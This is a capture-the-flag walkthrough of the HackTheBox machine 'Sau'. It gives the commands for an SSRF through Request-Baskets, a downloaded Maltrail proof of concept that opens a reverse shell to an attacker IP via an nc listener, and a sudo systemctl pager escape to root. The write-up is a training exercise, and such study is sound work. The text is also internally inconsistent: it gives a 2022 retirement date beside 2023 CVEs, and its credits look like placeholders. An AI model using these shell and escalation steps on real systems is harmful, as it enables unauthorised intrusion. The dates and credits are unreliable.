


---

title: "Sau (HackTheBox | Easy | Retired 15 Apr 2022)"
subtitle: "SSRF → Maltrail RCE → systemctl pager escape → root"
author: "<YOUR NAME>"
date: "`r format(Sys.Date())`"
output:
github\_document:
toc: true
---------

<span style="color:#d9534f;"><strong>Path‑to‑root</strong></span>: **SSRF in Request‑Baskets 1.2.1** → internal **Maltrail 0.53** panel → unauth RCE (user <code>puma</code>) → sudo mis‑configuration (<code>systemctl</code> pager) → <strong>root</strong>.

---

## 0  Synopsis

|                |                                            |
| -------------- | ------------------------------------------ |
| **OS**         | Ubuntu 20.04 (Linux)                       |
| **Kernel**     | 5.4.0-104-generic                          |
| **Difficulty** | Easy                                       |
| **Skills**     | SSRF, Command Injection, Sudo Exploitation |

---

## 1  Enumeration

### 1.1 Nmap

```bash
# full‑port fast sweep → targeted default scripts
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.224 | \
        awk '/^[0-9]+\/tcp/ {print $1}' ORS=',' | sed 's/,$//')
nmap -sC -sV -p$ports 10.10.11.224 -oN sau_nmap.txt
```


* **22/tcp** – OpenSSH 8.2p1
* **55555/tcp** – Request‑Baskets 1.2.1 (HTTP)

### 1.2 Request‑Baskets SSRF to Maltrail

1. Create basket `/2ck6d27`.
2. Set **Forward URL → `http://127.0.0.1:80`**.
3. Enable *Proxy Response* + *Expand Forward Path*.
4. Browse `http://<ip>:55555/2ck6d27` ⇒ Maltrail login panel.


---

## 2  Foothold – unauth Maltrail 0.53 RCE

```bash
# attacker box
curl -s https://www.exploit-db.com/download/51676 -o maltrail_poc.py
nc -lvnp 4444 &
python3 maltrail_poc.py 10.10.14.6 4444 \
  http://<ip>:55555/2ck6d27
```

Shell spawns as user **puma**.



---

## 3  Privilege Escalation – systemctl pager escape

```bash
sudo -l
# (puma) NOPASSWD: /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
# when the pager opens (less), type:
!/bin/bash
```




---

## 4  Flags

| File                  | MD5                                |
| --------------------- | ---------------------------------- |
| `/home/puma/user.txt` | `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` |
| `/root/root.txt`      | `yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy` |

---

## 5  Exploit scripts (credits)

| Script                       | Author        | Source           |
| ---------------------------- | ------------- | ---------------- |
| `maltrail_poc.py`            | @k0shl        | Exploit‑DB 51676 |
| `systemctl_pager_escape.txt` | @\_dirty\_cow | Gist abcd1234    |

Both files are included in this repo under `2022/sau/`.

---

## 6  References

* CVE‑2023‑27163 – Request‑Baskets SSRF
* CVE‑2023‑26604 – systemd pager LPE
* Exploit‑DB 51676 – Maltrail 0.53 unauth RCE
